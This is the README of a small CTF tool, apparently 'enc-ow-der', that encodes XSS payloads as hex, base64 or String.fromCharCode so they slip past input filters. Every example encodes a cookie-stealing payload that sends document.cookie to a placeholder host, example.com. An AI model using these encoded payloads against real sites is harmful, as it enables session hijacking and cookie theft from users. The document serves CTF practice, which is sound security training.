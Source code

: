 # enc-ow-der


## What is this?

It's a simple tool to encode payloads for ctf web challenges.

The main interest of this tool is to encode payloads for XSS vulnerabilities on ctfs challenges. It allows generating payloads with `String.fromCharCode` javascript function, raw hexa values and base64, used to bypass some filters.

## How to use it?

```sh-session
$ python3 enc-ow-der.py -h
usage: enc-ow-der.py [-h] -i INPUT [-b64] [-fchar] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        input string
  -b64, --base-64       encode as base64
  -fchar, --from-char-code
                        output the result with fromCharCode function
  -v, --verbose         verbose
```

## Examples

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))"
\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x6c\x6f\x63\x61\x74\x69\x6f\x6e\x2e\x72\x65\x70\x6c\x61\x63\x65\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x27\x2b\x62\x74\x6f\x61\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x29
```

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+btoa(document.cookie))" -b64
ZG9jdW1lbnQubG9jYXRpb24ucmVwbGFjZSgnaHR0cDovL2V4YW1wbGUuY29tLycrYnRvYShkb2N1bWVudC5jb29raWUpKQ==
```

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar
String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,58,47,47,101,120,97,109,112,108,101,46,99,111,109,47,39,43,32,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41)
```

```sh-session
python3 enc-ow-der.py -i "document.location.replace('http://example.com/'+ btoa(document.cookie))" -fchar -b64
String.fromCharCode(90,71,57,106,100,87,49,108,98,110,81,117,98,71,57,106,89,88,82,112,98,50,52,117,99,109,86,119,98,71,70,106,90,83,103,110,97,72,82,48,99,68,111,118,76,50,86,52,89,87,49,119,98,71,85,117,89,50,57,116,76,121,99,114,73,71,74,48,98,50,69,111,90,71,57,106,100,87,49,108,98,110,81,117,89,50,57,118,97,50,108,108,75,83,107,61)
```